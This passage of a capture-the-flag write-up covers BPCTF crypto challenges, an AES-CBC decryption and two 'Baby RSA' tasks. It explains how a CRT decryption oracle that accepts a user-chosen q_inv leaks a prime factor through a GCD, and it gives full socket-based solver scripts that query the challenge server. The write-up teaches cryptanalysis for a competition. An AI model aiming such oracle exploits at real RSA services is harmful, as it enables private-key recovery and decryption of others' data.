x = (t_pow_n * e + (t_pow_n - 1) * pow(h, -1, p) * g) % p
# x = (test * e + (test - 1) * modular_inverse(h, p) * g) % p

# print(x)

random.seed(x)

k = random.randbytes(16)

iv = b"S\x0f\xac'\xd0\x18\xfb\xe3\x92\xfdoc\x93\x7fJ\xfc"
ct = b"9\x18~C<3\xba\x04\xfb\x04t\x94\x7f\x86t\xb7\x9b\x9b\xc0N8\x0c\x8er]\x14\xfd\x033\xac;PVa\xd0m\xfdH\xf4pI\xf7s\xd5\xc2\x03\t\x9a\x1d\x96<?k\x16\xc0GVp\xcdj#\xde\xe8\x991\xb7k\xc7\xe2^\xd5h\xa7\xf8\x07\x02\xf9\xcee\xbej \x86y\xf6\xf3T\x8c8\x85\x11Ps\xb1E\xe5WK\xb3\xcbE}\xbb\xc7\x10\xea\xb92FJ\xf6\xde&I\x99\xd8\xa9\xae\x94\x0675\xcelc\x1a\xe4\x9c"

cipher = AES.new(key = k, iv = iv, mode = AES.MODE_CBC)

print(cipher.decrypt(ct))
```

**Flag:** `BPCTF{Man1pula7in6_M4tr1X_l1k3_M4gic}`
### Baby RSA 1

```py
from Crypto.Util.number import *
from Crypto.PublicKey import RSA 

with open('./FLAG.txt', 'rb') as f:
    flag = f.read()

def gen_key():
    key = RSA.generate(2024)
    public_key = (key.n, key.e)
    private_key = (key.p, key.q, key.d)
    return public_key, private_key

def decrypt_data(c, private_key, q_inv):
    """
    https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Using_the_Chinese_remainder_algorithm
    """
    p, q, d = private_key[0], private_key[1], private_key[2] 
    dp, dq = d % (p - 1), d % (q - 1) 
    m1 =  pow(c, dp, p)
    m2 = pow(c, dq, q)
    h = q_inv * (m1 - m2) % p
    m = m2 + h * q % (p * q) 
    return long_to_bytes(m)

def get_encrypted_flag(flag, public_key):
    n, e = public_key[0], public_key[1]
    flag = bytes_to_long(flag)
    flag_enc = pow(flag, e, n)
    return long_to_bytes(flag_enc)

border = '-' * 69
public_key, private_key = gen_key() 

flag_enc = get_encrypted_flag(flag, public_key).hex()

c = ''

while True:
    print(border)
    print('1. Decrypt data')
    print('2. Get public key')
    print('3. Get encrypted flag')
    print(border)
    
    choice = input('Enter your choice: ')

    if choice == '1':
        if c == '':
            c = input('Enter your ciphertext in hex string: ')
            c = int(c, 16)
            if c == int(flag_enc, 16):
                print("No cheating")
                exit()

        num = int(input('Enter your magic number: ')) 
        msg = decrypt_data(c, private_key, num).hex()
        print(msg)

    elif choice == '2':
        print(f'n = {public_key[0]}')
        print(f'e = {public_key[1]}')

    elif choice == '3':
        print(flag_enc)

    else:
        print('Bye')
        exit()
```

The code is just basically a RSA decryptor, but it allows us to modify `cipher` and `q_inv` many times.

Decryption method used here is [Chinese Remainder Theorem (CRT)]( https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Using_the_Chinese_remainder_algorithm).

To solve the problem, we need to know `q_inv` first, from that we can find `q`, then `p` from public key `n` (since `n = p*q`) and finally `d` and we can decrypt the message by ourselves

The code above only allows us to send ciphertext once, but allows multiple `q_inv` to decrypt that ciphertext

--> Choose 2 small `q_inv` like `1` and `2` to decrease the chance of the result exceeding remainder `n`

```py
def decrypt_data(c, private_key, q_inv):
    """
    https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Using_the_Chinese_remainder_algorithm
    """
    p, q, d = private_key[0], private_key[1], private_key[2] 
    dp, dq = d % (p - 1), d % (q - 1) 
    m1 =  pow(c, dp, p)
    m2 = pow(c, dq, q)
    h = q_inv * (m1 - m2) % p
    m = m2 + h * q % (p * q) 
    return long_to_bytes(m)
```

We will get 2 values:
```
d1 = m2 + hq  (1)
d2 = m2 + 2hq (2)
```
Solve this system of 2 linear equations (actually just take (2) - (1) :v), we get `hq`

Then we can do `GCD(hq, n)` to get `q`, and then calculate other parts of private key

**Code** (I was lazy so i send back q_inv to server for decryption)
```py
import socket, re
import math

def toHexArray (str):
	i = 0
	st = []
	while i < len(str):
		st.append(str[i:(i+2)])
		i = i + 2
		
	return st

def toBytes (str):
	return bytes.fromhex(join(toHexArray(str)))

def join(arr):
	return ' '.join(arr)

def toHexInputFromBytes (byte):
	return join(map(byteStr, byte))

def getcipher (line):
	ct = re.findall('[a-z0-9]+', line)[1]
	return (toBytes(ct[0:32]), toBytes(ct[32:]))

def get_line(createdSocket):
	inputByte = b''
	readNewLine = False
	while True:
		userInputByte = createdSocket.recv(1)
		# print(userInputByte)
		if userInputByte == b'\n' or not userInputByte:
			readNewLine = userInputByte == b'\n'
			break
		inputByte = inputByte + userInputByte

	if len(inputByte) == 0 and not readNewLine:
		return None
	return inputByte.decode()

def send_data(createdSocket, data):
	createdSocket.send(data)

def send_text(createdSocket, data):
	return send_data(createdSocket, data.encode())

def send_line(createdSocket, data):
	return send_text(createdSocket, data + "\n")

def byteStr(n):
	n = hex(n)[2:]

	if len(n) < 2:
		n = "0" + n

	return n

def listen(ip,port):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip, port))
	print("Listening on port " + str(port))

	n = None
	e = None
	flag_enc = None
	regex = '((n|e)\s=\s)*([0-9a-f]{3,})'

	r = 2
	r_inv = None

	whatToSend = [1,2]
	values = []
	received = True
	flagSent = False

	send_line(s, "2")
	send_line(s, "3")

	try:
		while True:
			line = get_line(s)
			if line == None:
				break
			# print(line)
			matches = re.findall(regex, line)
			noMatch = n != None and e != None and flag_enc != None
			if matches != None:
				for match in matches:
					prefix = match[1]
					value = match[2]
					if prefix == "n":
						n = int(value)
						r_inv = pow(r, -1, n)
						print("Obtained r_inv =", r_inv)
					elif prefix == "e":
						e = int(value)
					elif flag_enc == None:
						flag_enc = int(value, 16)
						prefix = "flag_enc"
					elif len(values) < 2:
						prefix = f"values[{len(values)}]"
						values.append(int(value, 16))
						received = True
					elif flagSent:
						mr = int(value, 16)
						flag = (mr * r_inv) % n
						print("Flag:", toBytes(hex(flag)[2:]))
						exit()
					else:
						prefix = None

					if prefix != None:
						noMatch = False
						print("Obtained {} = {}".format(prefix, value))
			
			if noMatch:
				# tryna get q
				index = len(values)
				if index < len(whatToSend):
					if received:
						received = False
						send_line(s, "1")

						if index == 0:
							send_line(s, hex((flag_enc * pow(r, e, n)) % n)[2:])

						print(str(whatToSend[index]))
						send_line(s, str(whatToSend[index]))
				elif not flagSent:
					flagSent = True
					# now calculate q and get flag
					xq = values[1] - values[0]
					q = math.gcd(n, xq)
					print("q =", q)
					print("Check:", n % q == 0)
					send_line(s, "1")
					send_line(s, str(q))
	except socket.timeout:
		return

listen("blackpinker.rocks", 30863)
```

**Result**


**Flag:** `BPCTF{Thank_you_naul_for_finding_this_not_so_intended_solution_4a6a58c21532}`

### Baby RSA 2

This problem is also the same as Baby RSA 1, but now you can only send one `q_inv` but as many ciphertext as you want

Code for RSA Decryption (again)
```py
def decrypt_data(c, private_key, q_inv):
    """
    https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Using_the_Chinese_remainder_algorithm
    """
    p, q, d = private_key[0], private_key[1], private_key[2] 
    dp, dq = d % (p - 1), d % (q - 1) 
    m1 =  pow(c, dp, p)
    m2 = pow(c, dq, q)
    h = q_inv * (m1 - m2) % p
    m = m2 + h * q % (p * q) 
    return long_to_bytes(m)
```

This time we will send `q_inv = 0` to nullify the second part of m, leaving us with only m2

For the ciphertext, we will choose 2 and 4, because 2 is small enough to prevent any risks and `2^2 = 4`

In the end we will get these 2 equations
```
d1 = m % q      (c = 2)
d2 = (m^2) % q  (c = 4)

--> d1^2 = d2 (mod q)
--> xq = d1^2 - d2   (x is any integer)
```

From this we can easily calculate `q` by the same GCD trick, and for this time we need to decrypt on client (well because server already unusable for correct decryption after `q_inv = 0` is sent :v)

**Code**
```py
import socket, re
import math
from fractions import Fraction

def toHexArray (str):
	i = 0
	st = []
	while i < len(str):
		st.append(str[i:(i+2)])
		i = i + 2
		
	return st

def toBytes (str):
	return bytes.fromhex(join(toHexArray(str)))

def join(arr):
	return ' '.join(arr)

def toHexInputFromBytes (byte):
	return join(map(byteStr, byte))

def getcipher (line):
	ct = re.findall('[a-z0-9]+', line)[1]
	return (toBytes(ct[0:32]), toBytes(ct[32:]))

def get_line(createdSocket):
	inputByte = b''
	readNewLine = False
	while True:
		userInputByte = createdSocket.recv(1)
		# print(userInputByte)
		if userInputByte == b'\n' or not userInputByte:
			readNewLine = userInputByte == b'\n'
			break
		inputByte = inputByte + userInputByte

	if len(inputByte) == 0 and not readNewLine:
		return None
	return inputByte.decode()

def send_data(createdSocket, data):
	createdSocket.send(data)

def send_text(createdSocket, data):
	return send_data(createdSocket, data.encode())

def send_line(createdSocket, data):
	return send_text(createdSocket, data + "\n")

def byteStr(n):
	n = hex(n)[2:]

	if len(n) < 2:
		n = "0" + n

	return n

def decrypt_data(c, private_key, q_inv):
    """
    https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Using_the_Chinese_remainder_algorithm
    """
    p, q, d = private_key[0], private_key[1], private_key[2] 
    dp, dq = d % (p - 1), d % (q - 1) 
    m1 =  pow(c, dp, p)
    m2 = pow(c, dq, q)
    h = q_inv * (m1 - m2) % p 
    m = m2 + h * q % (p * q) 
    return toBytes(hex(m)[2:])

def listen(ip,port):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip, port))
	print("Listening on port " + str(port))

	n = None
	e = None
	flag_enc = None
	regex = '((n|e)\s=\s)*([0-9a-f]{3,})'

	p = None
	q = None
	d = None

	whatToSend = [2, 4]
	values = []
	received = True
	flagSent = False

	send_line(s, "2")
	send_line(s, "3")

	try:
		while True:
			line = get_line(s)
			if line == None:
				break
			# print(line)
			matches = re.findall(regex, line)
			noMatch = n != None and e != None and flag_enc != None
			exitThis = False
			if matches != None:
				for match in matches:
					prefix = match[1]
					value = match[2]
					if prefix == "n":
						n = int(value)
					elif prefix == "e":
						e = int(value)
					elif flag_enc == None:
						flag_enc = int(value, 16)
						prefix = "flag_enc"
					elif len(values) < len(whatToSend):
						prefix = f"values[{len(values)}]"
						values.append(int(value, 16))
						received = True
						if len(values) >= len(whatToSend):
							[a1, a2] = values
							xq = a1 ** 2 - a2
							q = math.gcd(xq, n)
							print("q =", q)
							print("Check q valid:", q != 1 and n % q == 0)
							p = int(Fraction(n, q))
							d = pow(e, -1, math.lcm((q - 1), (p - 1)))
							print("p =", p)
							print("d =", d)
							exitThis = True
					else:
						prefix = None

					if prefix != None:
						noMatch = False
						print("Obtained {} = {}".format(prefix, value))

					if exitThis:
						print()
						print("Flag:", decrypt_data(flag_enc, (p, q, d), pow(q, -1, p)))
						exit()
			
			if noMatch:
				# tryna get q
				index = len(values)
				if index < len(whatToSend):
					if received:
						received = False
						send_line(s, "1")

						send_line(s, str(whatToSend[index]))

						if index == 0:
							send_line(s, "0")
				else:
					continue
	except socket.timeout:
		return

listen("blackpinker.rocks", 30911)
```

**Result**


**Flag:** `BPCTF{How_many_queries_did_you_use?_0b2dac556d3a}`